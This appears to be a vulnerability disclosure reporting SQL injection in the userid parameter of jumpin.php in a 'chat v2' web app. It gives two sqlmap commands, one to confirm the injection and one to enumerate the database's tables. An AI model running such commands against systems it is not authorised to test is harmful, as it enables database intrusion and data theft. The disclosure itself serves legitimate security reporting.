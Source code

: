 ## Chatv2 has SQL injection Vulnerability Description
- Author: Eddie TC CHANG, YUNG-HAO TSENG, YU-HSIANG HUANG
- Contact: eddietcchang@gmail.com; 0xuhaw@gmail.com; huang.yuhsiang.phone@gmail.com
---
### Testing Target
- Product: chat
- Version: 2
- Official Website: https://css-tricks.com/chat2/
- Github: N/A

### Summary
The Chatv2 has SQL injection.

### Description
The `userid` parameter in `/chat2/ jumpin.php` has SQL injection vulnerability.
 
### Concept
1. Build the chat2 test environment, and create a chat then send test message out.
![](./png/1.png)
2. Back to default page, input new desired username. Use BurpSuite to intercept POST package for sqlmap test before submitting.
![](./png/2.png)
![](./png/3.png)
3. SQL injection testing via sqlmap. Find out valid payload, then obtain web server’s information and can further enumerate DB, table or other use.
**payload:**`py -2 sqlmap.py -r D:\sql.txt -p userid --dbms mysql --level 5 --risk 3 --threads=5`
![](./png/4.png)
**payload:**`py -2 sqlmap.py -r D:\sql.txt -p userid --dbms mysql --level 5 --risk 3 --threads=5 -D chat2_db --tables`
![](./png/5.png)
